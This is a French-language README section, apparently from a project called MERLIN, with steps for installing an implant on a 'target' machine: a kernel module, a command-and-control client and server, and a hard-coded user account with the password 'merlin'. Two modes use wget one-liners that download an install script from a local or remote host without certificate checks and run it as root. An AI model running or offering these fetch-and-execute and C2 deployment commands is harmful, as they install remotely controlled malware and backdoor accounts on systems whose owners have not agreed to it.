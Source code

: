 ## Installation de MERLIN
Ces actions sont à effectuer sur la cible: 

![alt text](images/image-15.png)  

- SANS accès réseau :
Utilisez une clé USB OU le dossier partagé de la VM pour déposer sur la cible le fichier merlin_install.sh ET merlin_.ko  
<ins>Le client C2 ne sera pas installé.</ins>
```bash
# sur la cible :
chmod +x /root/merlin_install.sh
/root/merlin_install.sh
# choix 1
``` 
- CONNEXION Reseau locale (serveur Web et C2 locaux) :
```bash
# Sur l'hôte :
python3 merlin_https_web_server.py

# dans un second terminal ou après l'installation sur la cible :
cd c2
python3 merlin_server.py 

# sur la cible :
wget --no-check-certificate https://10.0.2.2:4443/merlin_install.sh -O /root/merlin_install.sh && chmod +x /root/merlin_install.sh && /root/merlin_install.sh

# choix 2
```

- CONNEXION INTERNET (serveur Web et C2 hébergés sur un serveur distant) :   
<ins>ATTENTION : dans ce mode le client C2 cherche à communiquer avec un serveur distant. Le serveur C2 doit donc être hébergé sur un serveur capable de lancer un script python.</ins>
```bash
# sur la cible
wget --no-check-certificate https://perses.feralhosting.com/phoenix2006/merlin_install.sh -O /root/merlin_install.sh && chmod +x /root/merlin_install.sh && /root/merlin_install.sh
# choix 3
```

## Creation d'un utilisateur standard
```bash
identifiant : merlin_
mot de passe : merlin
```
